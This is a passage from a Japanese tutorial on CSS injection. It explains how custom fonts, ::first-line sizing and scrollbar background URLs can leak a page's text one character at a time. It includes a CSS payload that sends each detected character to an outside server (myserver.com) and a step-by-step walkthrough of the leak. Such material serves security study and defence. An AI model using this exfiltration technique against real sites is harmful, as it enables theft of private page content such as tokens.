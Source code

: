 ```html
</html>
```

画面には「C」という文字だけが表示されます。これは、まず `font-size: 0px` を使用してすべての文字のフォントサイズを0に設定し、次に `div::first-line` を使用して調整し、1行目のフォントサイズを30pxにするためです。言い換えれば、1行目の文字だけが見え、現在のdivの幅は20pxしかないため、最初の文字だけが表示されます。

次に、先ほど学んだトリックを使用して、異なるフォントを読み込んでみます。faフォントを読み込むと、画面にAが表示されないため、変化はありません。しかし、fcフォントを読み込むと、画面にCが表示されるため、Comic Sans MSを使用してCが表示され、高さが高くなり、スクロールバーが表示され、それを使用してリクエストを送信できます。このように：

```css
div {
  font-size: 0px;
  height: 40px;
  width: 20px;
  font-family: fc, "Courier New";
  letter-spacing: 0px;
  word-break: break-all;
  overflow-y: auto;
  overflow-x: hidden;
  --leak: url(http://myserver.com?C);
}

div::first-line{
  font-size: 30px;
}

div::-webkit-scrollbar {
  background: blue;
}

div::-webkit-scrollbar:vertical {
  background: var(--leak);
}
```

では、どのようにして新しいフォントファミリーを使い続けることができるのでしょうか？CSSアニメーションを使用することで実現できます。CSSアニメーションを使用して、異なるフォントファミリーを継続的に読み込み、異なる `--leak` 変数を指定できます。

このようにして、画面上の最初の文字が何であるかを知ることができます。

最初の文字がわかったら、divの幅を長くします。例えば40pxにすると、2文字を収容できます。したがって、1行目は最初の2文字になります。次に、同じ方法で異なるフォントファミリーを読み込むと、2番目の文字をリークできます。詳細なプロセスは次のとおりです。

1. 画面上の文字が「ACB」であると仮定します。
2. 幅を20pxに調整し、1行目には最初の文字「A」のみが表示されます。
3. フォント「fa」を読み込むと、「A」がより大きなフォントサイズで表示され、スクロールバーが表示されます。スクロールバーの背景を読み込み、サーバーにリクエストを送信します。
4. フォント「fb」を読み込みますが、「B」は画面に表示されないため、変化はありません。
5. フォント「fc」を読み込みますが、「C」は画面に表示されないため、変化はありません。
6. 幅を40pxに調整し、1行目には最初の2文字「AC」が表示されます。
7. フォント「fa」を再度読み込むと、「A」がより大きなフォントサイズで表示され、スクロールバーが表示されます。この時点で、背景はすでに読み込まれているため、新しいリクエストは送信されません。
8. フォント「fb」を読み込むと、「B」がより大きなフォントサイズで表示され、スクロールバーが表示されます。スクロールバーの背景を読み込みます。
9. フォント「fc」を再度読み込むと、「C」がより大きなフォントサイズで表示されますが、同じ背景がすでに読み込まれているため、リクエストは送信されません。
10. 幅を60pxに調整し、3文字すべて「ACB」が1行目に表示されます。
11. フォント「fa」を再度読み込むと、ステップ7と同じです。
12. フォント「fb」を読み込むと、「B」がより大きなフォントサイズで表示され、スクロールバーが表示されます。スクロールバーの背景を読み込みます。
13. フォント「fc」を再度読み込むと、「C」がより大きなフォントサイズで表示されますが、同じ背景がすでに読み込まれているため、リクエストは送信されません。
14. 終了。
